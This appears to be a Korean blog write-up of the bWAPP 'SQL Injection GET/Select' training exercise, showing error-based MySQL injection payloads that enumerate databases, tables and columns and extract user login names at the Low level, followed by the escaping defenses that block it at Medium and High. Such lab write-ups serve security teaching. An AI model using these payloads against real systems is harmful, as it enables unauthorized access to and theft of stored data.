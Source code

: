 ```yaml
---
layout: single
title: (bWAPP)SQL Injection GET/Select
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```

# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low
![그림 1-1](/assets/image/bwapp/injection/sqli-select-archive/sqli-select/image1.png)
- Select 기능이 존재하고 영화 제목을 질의할 수 있다. 또한 해당 질의의 응답으로 게시판 형식이 출력된다.
- 출력되는 레코드는 하나의 열만 출력하는 듯 하다.
- GET 형식으로 데이터가 전송된다.

```
bWAPP/sqli_2.php?movie=4&action=go
```

- GET 형식으로 날라갈 때 파라미터를 보게되면 movie 파라미터에 int 형식으로 전송된다.

![그림 1-2](/assets/image/bwapp/injection/sqli-select-archive/sqli-select/image2.png)

```
bWAPP/sqli_2.php?movie=1 and 1=1-- &action=go
```

- '(싱글쿼터) 입력시 DBMS Error 가 발생하며, MySQL 사용 유/무 및 Injection 취약 유/무를 확인했다.

> 해당 실습에서는 Error Based가 가능하여 해당 로직의 경우 Error Based 보다 UNION Based 가 시간적으로나 모든 면에서 효율적이나 실습을 위해 Error Based 로 진행하였다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat(select schema_name from information_schema.schemata limit 0,1,FLOOR(rand(0)*2))x FROM information_schema.schemata GROUP BY x limit 0,1 )a)--
```

- 해당 구문을 통해 데이터베이스를 순차적으로 하나씩 확인이 가능하다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x limit 0,1 )a)--
```

- 테이블 또한 위 구문을 통해 순차적으로 확인이 가능하다

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.columns GROUP BY x limit 0,1 )a)--
```

- 컬럼명 조회를 위한 구문이며, 순차적으로 접근하며 login 컬럼이 발견되어 해당 컬럼에 대한 데이터 추출 시도를 하였다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select login from bWAPP.users limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x limit 0,1 )a)--
```

![그림 1-3](/assets/image/bwapp/injection/sqli-select-archive/sqli-select/image3.png)
- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.